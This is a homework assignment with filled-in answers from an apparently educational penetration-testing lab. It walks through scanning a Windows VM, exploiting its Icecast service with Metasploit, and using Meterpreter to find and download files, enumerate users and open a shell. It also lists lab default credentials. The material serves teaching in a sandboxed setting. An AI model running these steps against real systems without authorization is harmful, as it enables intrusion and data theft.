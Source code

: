 # Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.


- The CEO claims to have passwords that are long and complex and therefore unhackable.
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.
- The deliverable for this engagement will be in the form of a report labeled Report.docx.

### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
  - Then click Start Server.




### Reminders


- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.


### Scope


- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.


- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.


- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.


- Since you've already been provided access to the network, OSINT won't be necessary.

### Lab Environment
For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux root:toor

- Target machine: DVW10 IEUser:Passw0rd!


**NOTE:** You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
- The icecast application will launch.
- Click on Start Server.
- You are now ready to being the activity.


### Deliverable
Once you complete this assignment, submit your findings in the following document:

[Report.docx]


### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

  - Run the Nmap command that performs a service and version scan against the target.
  
    > Answer: nmap -sV 192.168.0.20


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  - Run the SearchSploit commands to show available Icecast exploits.

    > Answer: searchsploit icecast


3. Now that we know which exploits are available to us, let's start Metasploit:
  - Run the command that starts Metasploit:

    > Answer: msfconsole


4. Search for the Icecast module and load it for use.
  - Run the command to search for the Icecast module:

    > Answer: search icecast



  - Run the command to use the Icecast module:
   **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

    > Answer: use 0





5. Set the RHOST to the target machine.


  - Run the command that sets the RHOST:

    > Answer: set RHOST 192.168.0.20





6. Run the Icecast exploit.
  - Run the command that runs the Icecast exploit.

    > Answer: exploit



  - Run the command that performs a search for the secretfile.txt on the target.

    > Answer: search -f secretfile.txt


7. You should now have a Meterpreter session open.


  - Run the command to performs a search for the recipe.txt on the target:

    > Answer: search -f recipe.txt



  - **Bonus:** Run the command that exfiltrates the recipe*.txt file:

    > Answer: download c:\Users\IEUser\Documents\Drinks.recipe.txt





8. You can also use Meterpreter's local exploit suggester to find possible exploits.


  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell.

  > Answer: shell

C. Run the command that displays the target's computer system information:

  > Answer: sysinfo
